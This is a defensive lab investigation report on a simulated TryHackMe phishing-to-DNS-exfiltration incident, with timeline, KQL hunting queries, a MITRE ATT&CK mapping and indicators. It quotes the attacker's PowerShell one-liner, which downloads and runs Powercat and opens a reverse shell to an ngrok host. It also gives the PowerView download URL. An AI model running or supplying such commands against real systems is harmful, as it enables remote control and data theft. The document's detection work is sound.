# Hunt Me I: Payment Collectors — Phishing to DNS Exfiltration

**Blue Team investigation | Elastic Discover · Sysmon · PowerShell Operational Logs · CyberChef**

> **Environment:** TryHackMe — *Hunt Me I: Payment Collectors* (simulated incident). This is an evidence-led incident investigation, not a question-and-answer walkthrough. No original malware, confidential documents, event-log exports, or challenge flag are included.

## Executive Summary

A finance user at the fictional **SSF** organization received an invoice-themed email. Endpoint telemetry shows Outlook caching a ZIP attachment, followed by the creation of a deceptive shortcut, PowerShell activity involving a Powercat reverse-shell command, native-host reconnaissance, and a downloaded **PowerView** script. Later, PowerShell mapped a financial-records network share, ran `Robocopy.exe` to populate an `exfiltration` directory, and created a ZIP archive containing two business documents. Finally, a burst of **18 `nslookup.exe` process-creation events** used distinct, long subdomains under `haz4rdw4re.io`.

A Base64 decode of captured encoded material exposed ZIP-like `PK` bytes and the names of the staged documents. Taken together, the evidence strongly supports **an attempted data-exfiltration sequence using DNS queries**, while the available screenshots alone do not establish successful transmission or receipt of the data by an attacker-controlled nameserver.

**Investigation outcome:** Malicious activity identified from email attachment through collection/staging and probable DNS-based exfiltration. The success of the reverse-shell connection and completion of off-host data transfer remain **unverified** from the supplied artifacts.

## Contents

- [Scope and Evidence](#scope-and-evidence)
- [Fast Reference: What to Look For](#fast-reference-what-to-look-for)
- [Attack Timeline](#attack-timeline)
- [Investigation and Supporting Evidence](#investigation-and-supporting-evidence)
- [Detection Queries](#detection-queries)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Indicators and Artifacts](#indicators-and-artifacts)
- [Assessment and Next Steps](#assessment-and-next-steps)
- [Lessons Learned](#lessons-learned)

## Scope and Evidence

The analysis used the available **Elastic/Kibana Discover** event dataset. The user-provided screenshots show these useful telemetry categories:

| Evidence | What it establishes | Important limitation |
| --- | --- | --- |
| Sysmon **Event ID 11** (FileCreate) | Local creation of an attachment, scripts, files, and staging archive | Creation alone does not prove the file was opened, executed, or sent |
| Sysmon **Event ID 1** (ProcessCreate) | Process lineage and command lines (`powershell`, `systeminfo`, `net`, `Robocopy`, `nslookup`) | A command line does not by itself demonstrate remote success |
| PowerShell **Event ID 4103** (module logging) | `Invoke-WebRequest` command invocation and parameter bindings for PowerView | Module logging may be incomplete; absence of a record is not evidence of absence |
| CyberChef **From Base64** | Decoded material resembling an archive and containing file names | No complete, validated extraction or external receipt is shown |

**Timestamp convention:** All times below are as displayed in Discover on **September 15, 2023**. The screenshots do not establish the time-zone settings, so these values are not labeled UTC.

## Fast Reference: What to Look For

| Hunting pivot | Field or event | Why it mattered |
| --- | --- | --- |
| Email attachment | Sysmon 11 + `OUTLOOK.EXE` | Find files written to Outlook's attachment cache |
| Disguised shortcut | `*.lnk` / `*.pdf.lnk*` | Locate a lure masquerading as a document |
| Suspicious PowerShell | Sysmon 1 + `process.command_line` | Identify download/execute behavior and the Powercat invocation |
| Host reconnaissance | `systeminfo.exe` spawned by PowerShell | Establish post-access discovery activity |
| PowerView transfer | PowerShell 4103 + `Invoke-WebRequest` | Recover script URL and `OutFile` parameter |
| Share mapping | `net.exe use` | Identify access to financial-records share |
| Data staging | `Robocopy.exe` + Sysmon 11 | Find staging directory and copied/generated documents |
| DNS exfiltration hypothesis | Sysmon 1 + `nslookup.exe` + long subdomains | Detect a rapid series of queries directed at one domain |
| Encoded material | CyberChef `From Base64` | Correlate decoded ZIP signatures and filenames with staged files |

## Attack Timeline

| Time | Event / evidence | Interpretation |
| --- | --- | --- |
| **18:40:57** | `OUTLOOK.EXE` runs against an invoice-related `.eml` file | Email/lure context |
| **18:41:00** | Outlook creates `Invoice_AT_2023-227.zip` in its `INetCache` | Attachment staged locally |
| **18:41:11** | Explorer creates `Payment_Invoice.pdf.lnk.lnk` in an extracted temporary path | Suspicious double-extension shortcut; its execution is not directly shown in this event |
| **18:41:12** | `powershell.exe` command includes `DownloadString(...)` for Powercat and `-c 2.tcp.ngrok.io -p 19282 -e powershell` | Reverse-shell command initiated; network connection not independently confirmed |
| **18:41:28** | `systeminfo.exe` spawned from `powershell.exe` | Host information discovery |
| **18:42:23** | `PowerView.ps1` created; PowerShell 4103 records `Invoke-WebRequest` with GitHub URL and `OutFile` | Domain-enumeration tool downloaded/staged |
| **18:42:44** | PowerShell activity references `PowerView.ps1` | The script was processed by PowerShell; specific enumeration results not shown |
| **18:44:18** | `net.exe use Z: \\FILESRV-01\SSF-FinancialRecords` | Access to financial network share |
| **18:45:05** | `Robocopy.exe` command targets `Downloads\exfiltration`; two Office files appear there | Local collection/staging activity |
| **18:45:16** | `net.exe use Z: /delete` | Network-drive mapping removed |
| **18:45:34** | PowerShell creates `Downloads\exfiltration\exfilt8me.zip` | An archive is staged for possible transfer |
| **18:46:03** | 18 recorded `nslookup.exe` process launches with varying encoded-looking subdomains | Strong indicator of DNS-based exfiltration behavior |

*The timeline is reconstructed from screenshots rather than a complete raw-log export; it documents observed events, not every action in the incident.*

## Investigation and Supporting Evidence

### Email Attachment and Suspected User Execution

I started with **Sysmon Event ID 11** to identify files created by email clients. Outlook wrote `Invoice_AT_2023-227.zip` inside the user's Outlook cache at approximately **18:41:00**. Pivoting on the attachment filename revealed a further creation event in a temporary extraction location for `Payment_Invoice.pdf.lnk.lnk`.

The apparent `.pdf` name is misleading: `.lnk` denotes a Windows shortcut. Combined with the invoice lure and later suspicious process activity, this is consistent with a shortcut-based phishing chain. **The screenshots do not include the shortcut's target properties**, so the causal step between shortcut creation and PowerShell execution is a reasonable hypothesis, not directly proven by the shortcut event.





**Why the pivot mattered:** A benign-looking ZIP from a finance-themed email becomes more suspicious when its extracted contents contain shortcut files with document-like names. The next step is to correlate nearby **process creation** telemetry.

### PowerShell Execution, Powercat, and Host Reconnaissance

Around **18:41:12**, Sysmon Event ID 1 recorded a PowerShell command that downloaded and ran Powercat using `IEX` and `System.Net.WebClient.DownloadString`. The command also specified a reverse-shell destination and a PowerShell child shell:

```powershell
IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 2.tcp.ngrok.io -p 19282 -e powershell
```

The destination **`2.tcp.ngrok.io:19282`** is an observed command-line indicator, not proof that a TCP session successfully connected. Shortly afterward (**18:41:28**), `powershell.exe` launched the native Windows reconnaissance tool `systeminfo.exe`.





**Why this matters:** Parent/child relationships and command-line arguments distinguish routine PowerShell use from a possible interactive attacker shell followed by system discovery. Confirming the actual connection would require network connection, firewall, proxy, or packet telemetry that is not included here.

### PowerView Download for Domain Enumeration

An Event ID **11** record showed `PowerView.ps1` created at approximately **18:42:23**, and **PowerShell Event ID 4103** showed an `Invoke-WebRequest` call with `Uri` and `OutFile` parameter values:

```text
Uri:     https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1
OutFile: PowerView.ps1
```

This provides stronger evidence than simply finding the PowerView file: the event reveals **which command and URL were used** to obtain it. PowerView is associated with Active Directory discovery; this evidence demonstrates download and subsequent PowerShell processing, but it does not by itself show a completed domain enumeration query or its results.





**Why the pivot mattered:** Searching for a filename alone returned noisy script-content events. Looking at **4103 parameter bindings** exposed the actual download mechanism.

### Financial Share Mapping and File Staging

The attacker-associated PowerShell session launched `net.exe` at **18:44:18**:

```cmd
net use Z: \\FILESRV-01\SSF-FinancialRecords
```

A later `net use Z: /delete` removed the mapping. At **18:45:05**, `Robocopy.exe` wrote to the local directory:

```text
C:\Users\michael.ascot\Downloads\exfiltration
```

Sysmon FileCreate events within that directory showed **`ClientPortfolioSummary.xlsx`** and **`InvestorPresentation2023.pptx`** at approximately **18:45:05**, followed by **`exfilt8me.zip`** at **18:45:34** (created by PowerShell).







**Interpretation:** Share access, file-copy tooling, two business documents, and a newly created ZIP archive are consistent with **collection and local staging**. The screenshots do **not** prove the precise original source path for each staged document or reveal the complete archive-creation command.

### Possible DNS Exfiltration and Payload Reconstruction

At around **18:46:03**, Kibana returned **18 matching Sysmon Event ID 1 records** for `nslookup.exe` launched by `powershell.exe`. Command lines used differing, long subdomain labels under:

```text
haz4rdw4re.io
```

These closely spaced process launches are unusual for normal interactive DNS troubleshooting, especially directly after the staging archive was created. The repeated pattern resembles **DNS exfiltration**, where encoded file bytes are split into DNS-safe labels and placed into queries for an external domain.





I also used **CyberChef → From Base64** on captured encoded material. The decoded output displayed **`PK` ZIP signatures** and the filenames `ClientPortfolioSummary.xlsx` and `InvestorPresentation2023.pptx`, which match the earlier staging evidence.



**Evidence boundary:** These 18 hits count **process creations**, not confirmed DNS packets. This is compelling evidence of an attempted DNS-based transfer, especially together with encoded content, but the screenshot set does not prove resolver receipt, authoritative DNS receipt, or a successfully reconstructed and validated complete ZIP file.

## Detection Queries

The following **KQL hunting examples** are useful starting points based on the investigation and available ECS-style fields. Adjust field names to the specific Elastic data view. These are analyst queries, not validated production detection rules; each requires context and false-positive review.

**Find email-client file creation:**

```kql
winlog.event_id: 11 AND process.name: "OUTLOOK.EXE"
```

**Pivot from the attachment into related events:**

```kql
*Invoice_AT_2023-227.zip*
```

**Review PowerShell process execution and downloaded tooling:**

```kql
winlog.event_id: 1 AND process.name: "powershell.exe"
```

```kql
process.command_line: *powercat* OR process.command_line: *ngrok.io*
```

**Identify native host reconnaissance:**

```kql
winlog.event_id: 1 AND process.name: "systeminfo.exe"
```

**Find PowerView download details:**

```kql
winlog.event_id: 4103 AND *PowerView*
```

**Inspect share mapping / file staging:**

```kql
winlog.event_id: 1 AND (process.name: "net.exe" OR process.name: "Robocopy.exe")
```

```kql
winlog.event_id: 11 AND file.path: *exfiltration*
```

**Find the suspicious burst of `nslookup.exe`:**

```kql
winlog.event_id: 1 AND process.name: "nslookup.exe" AND process.command_line: *haz4rdw4re.io*
```

**Hunting improvement:** For a generalized rule, avoid depending only on this IOC. Combine suspicious process ancestry, frequent `nslookup.exe` launches, unusually long or high-entropy DNS names, repeated destination domains, and recent staging activity. Verify with actual DNS telemetry before calling successful exfiltration.

## MITRE ATT&CK Mapping

| Tactic | Technique | Relationship to the evidence | Confidence |
| --- | --- | --- | --- |
| Initial Access | [T1566.001 — Phishing: Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/) | Invoice-themed attachment in Outlook; phishing context supplied by the scenario | High for attachment; delivery/interaction details not fully shown |
| Execution | [T1059.001 — Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/) | PowerShell download/execute and post-access commands | High |
| Command and Control / Tool Transfer | [T1105 — Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/) | Download of Powercat and PowerView scripts | High for observed transfer commands |
| Discovery | [T1082 — System Information Discovery](https://attack.mitre.org/techniques/T1082/) | `systeminfo.exe` launched from PowerShell | High |
| Collection | [T1039 — Data from Network Shared Drive](https://attack.mitre.org/techniques/T1039/) | Finance share mapping followed by file staging | Plausible; exact copy origin not directly shown |
| Collection | [T1074.001 — Data Staged: Local Data Staging](https://attack.mitre.org/techniques/T1074/001/) | `Downloads\exfiltration` directory and files | High |
| Collection | [T1560 — Archive Collected Data](https://attack.mitre.org/techniques/T1560/) | ZIP archive created in staging folder | High for archive creation; method not fully recorded |
| Exfiltration | [T1048 — Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/) | Encoded-looking data in repeated DNS-lookup command lines | High for attempted behavior; completion unverified |
| Exfiltration | [T1048.003 — Exfiltration Over Unencrypted Non-C2 Protocol](https://attack.mitre.org/techniques/T1048/003/) | DNS is a likely carrier of the encoded data | Reasonable sub-technique hypothesis; DNS flow not independently captured |

*Note:* This mapping describes **observable behaviors**, not an assertion that every tactic in the ATT&CK chain was proven. In particular, a downloaded PowerView script alone is not proof of specific domain-account enumeration commands.

## Indicators and Artifacts

These are **investigation indicators from a training dataset**, not a current real-world blocklist:

| Category | Value | Role |
| --- | --- | --- |
| Attachment | `Invoice_AT_2023-227.zip` | Phishing-associated ZIP |
| Suspicious shortcut | `Payment_Invoice.pdf.lnk.lnk` | Document-like shortcut in extracted temporary path |
| Script | `powercat.ps1` | Reverse-shell tooling in PowerShell command line |
| Script URL | `https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1` | Powercat retrieval |
| Reverse-shell endpoint | `2.tcp.ngrok.io:19282` | Destination specified in command; connection not verified |
| Tool | `systeminfo.exe` | Host reconnaissance |
| Domain discovery tool | `PowerView.ps1` | Downloaded/staged PowerShell script |
| Script URL | `https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1` | Observed `Invoke-WebRequest` URI |
| Network share | `\\FILESRV-01\SSF-FinancialRecords` | Mapped as `Z:` |
